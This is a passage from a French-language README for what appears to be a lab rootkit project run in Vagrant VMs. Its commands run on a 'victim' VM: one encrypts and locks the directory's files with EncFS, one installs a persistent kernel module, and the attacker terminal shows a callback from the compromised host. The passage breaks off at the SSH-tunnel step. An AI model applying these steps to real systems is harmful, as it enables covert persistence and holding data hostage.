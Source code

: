 ### 4.2 Préparation des fichiers (encodage/chiffrement)

```bash
# Dans la VM victime
cd /home/vagrant/rootkit

# Lancement du système de chiffrement des données
make encodage
```

**Sortie attendue :**
```
Script de chiffrement du répertoire courant
==============================================
Mot de passe généré depuis le hash de référence
Vérification des dépendances...
Toutes les dépendances sont installées !
Initialisation du chiffrement EncFS...
Système de chiffrement créé !
Copie de tous les fichiers vers le dossier chiffré...
Copie terminée !
Dossier verrouillé avec succès !
Chiffrement terminé !
```

### 4.3 Installation du rootkit

```bash
# Installation automatique du rootkit
make install
```

**Sortie attendue :**
```
vagrant@ubuntu-focal:~/rootkit$ make install 
sudo bash install.sh
Compilation...
Installation du module...
Configuration de la persistance...
Installation terminee
```

**À ce moment, vous devriez voir apparaître dans le Terminal 1 (attaquant) :**
```
[2025-06-15 20:26:01] ubuntu-focal (192.168.56.1) - INSTALLE ET ACTIF
Kernel: Linux 5.4.0-216-generic | Arch: x86_64 | Port: 8005 
```

---

## Étape 5 : Création du tunnel SSH sécurisé

### 5.1 Configuration du tunnel depuis l'attaquant
